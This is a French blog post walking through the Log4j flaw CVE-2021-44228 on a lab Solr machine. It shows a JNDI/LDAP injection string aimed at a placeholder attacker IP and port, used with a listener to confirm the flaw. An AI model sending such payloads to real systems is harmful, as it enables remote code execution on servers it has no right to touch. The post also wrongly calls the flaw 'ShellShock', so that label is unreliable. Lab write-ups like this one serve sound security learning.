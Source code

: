 ```yaml
---

layout: post

title: "Analyse de la faille Log4J"

date: 2021-12-13

categories: divers

---
```


# Analyse de la faille Log4J (CVE-2021-44228)

Pas besoin d'être un professionnel de la cybersécurité pour avoir entendu parler de cette faille.

Connue sous le nom de CVE-2021-44228, ou plus communément "ShellShock" de par son impact étendu, cette faille notée 10 (sur 10) par le scoring CVSS permet un _Remote Code Execution_ en exploitant le système de log basé sur Java : Log4j.

Je vous propose une brève analyse de cette faille. Avec tout d'abord un remerciement à John Hammond pour la création de la machine d'exploit.

# Reconnaissance de la faille

Cette faille se retrouve sur bon nombre d'applications, puisque Log4J est très répandue pour la création de logs. Pour cette attaque je me base sur l'application Solr, puisque cette dernière utilise une version vulnérable de Log4J.

![2](https://user-images.githubusercontent.com/16634117/145869688-87433bd9-c133-41de-bd0d-43588d5e01a1.PNG)

Un petit tour sur l'application et on remarque rapidement que Log4J est présent dans les arguments de l'application. 

Il faut maintenant savoir si cette version est vulnérable, pour ça il faut d'abord trouver un point d'injection. Le plus simple est donc de jeter un oeil aux logs de l'application :

![example_logs](https://user-images.githubusercontent.com/16634117/145869966-14f8f7bf-995c-470a-a6e8-dc4a334a5edb.png)

Ici, on voit clairement que les requêtes GET sont journalisées, l'url mais également **les paramètres**.

Pour identifier la vulnérabilité du système, il suffit d'injecter un paramètres GET avec la charge utile suivante (expliquée dans la présentation de la faille) :

`{jndi:ldap://<IP>:<PORT>}`

Voilà donc l'injection, avec un listener de l'autre côté pour vérifier la bonne execution par le système de logs :

![5](https://user-images.githubusercontent.com/16634117/145870531-750a9523-9d1c-4b0d-b523-af4b2d1e669e.png)


